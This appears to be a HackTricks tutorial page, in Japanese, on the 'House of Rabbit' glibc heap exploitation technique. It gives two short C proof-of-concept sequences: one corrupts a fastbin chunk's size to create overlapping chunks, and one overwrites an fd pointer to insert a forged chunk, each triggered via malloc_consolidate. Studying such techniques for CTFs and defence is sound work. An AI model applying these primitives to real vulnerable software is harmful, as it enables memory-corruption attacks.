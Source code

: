# House of Rabbit

{{#include ../../banners/hacktricks-training.md}}

### 要件

1. **ファストビンのfdポインタまたはサイズを変更する能力**: これは、ファストビン内のチャンクの前方ポインタまたはそのサイズを変更できることを意味します。
2. **`malloc_consolidate`をトリガーする能力**: これは、大きなチャンクを割り当てるか、トップチャンクをマージすることで行うことができ、ヒープがチャンクを統合することを強制します。

### 目標

1. **オーバーラップするチャンクを作成する**: 1つのチャンクが別のチャンクとオーバーラップするようにし、さらなるヒープ操作を可能にします。
2. **偽のチャンクを作成する**: ヒープ操作中にアロケータを騙して、偽のチャンクを正当なチャンクとして扱わせることです。

## 攻撃の手順

### POC 1: ファストビンチャンクのサイズを変更する

**目的**: ファストビンチャンクのサイズを操作してオーバーラップするチャンクを作成します。

- **ステップ 1: チャンクを割り当てる**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
0x40バイトのチャンクを2つ割り当てます。これらのチャンクは解放されるとファストビンリストに配置されます。

- **ステップ2: チャンクを解放する**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
両方のチャンクを解放し、fastbinリストに追加します。

- **ステップ 3: チャンクサイズの変更**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
`chunk1`のサイズメタデータを0xa1に変更します。これは、統合中にアロケータを欺くための重要なステップです。

- **ステップ4: `malloc_consolidate`をトリガーする**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
大きなチャンクを割り当てると、`malloc_consolidate`関数がトリガーされ、ファストビン内の小さなチャンクがマージされます。操作された`chunk1`のサイズにより、`chunk1`が`chunk2`と重なります。

統合後、`chunk1`は`chunk2`と重なり、さらなる悪用が可能になります。

### POC 2: `fd`ポインタを変更する

**目的**: ファストビンの`fd`ポインタを操作してフェイクチャンクを作成する。

- **ステップ 1: チャンクを割り当てる**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**説明**: 小さいチャンクと大きいチャンクの2つを割り当てて、フェイクチャンクのためにヒープを設定します。

- **ステップ 2: フェイクチャンクを作成**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
`chunk2`に偽のチャンクメタデータを書き込んで、より小さなチャンクをシミュレートします。

- **ステップ 3: `chunk1`を解放する**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**説明**: `chunk1`を解放し、fastbinリストに追加します。

- **ステップ4: `chunk1`の`fd`を変更する**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**説明**: `chunk1`の前方ポインタ（`fd`）を変更して、`chunk2`内の偽のチャンクを指すようにします。

- **ステップ5: `malloc_consolidate`をトリガーする**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
大きなチャンクを再度割り当てると、`malloc_consolidate`がトリガーされ、偽のチャンクが処理されます。

偽のチャンクはfastbinリストの一部となり、さらなる悪用のための正当なチャンクとなります。

### 概要

**House of Rabbit**技術は、fast binチャンクのサイズを変更して重複するチャンクを作成するか、`fd`ポインタを操作して偽のチャンクを作成することを含みます。これにより、攻撃者はヒープ内で正当なチャンクを偽造し、さまざまな形の悪用を可能にします。これらのステップを理解し、実践することで、ヒープの悪用スキルが向上します。

{{#include ../../banners/hacktricks-training.md}}
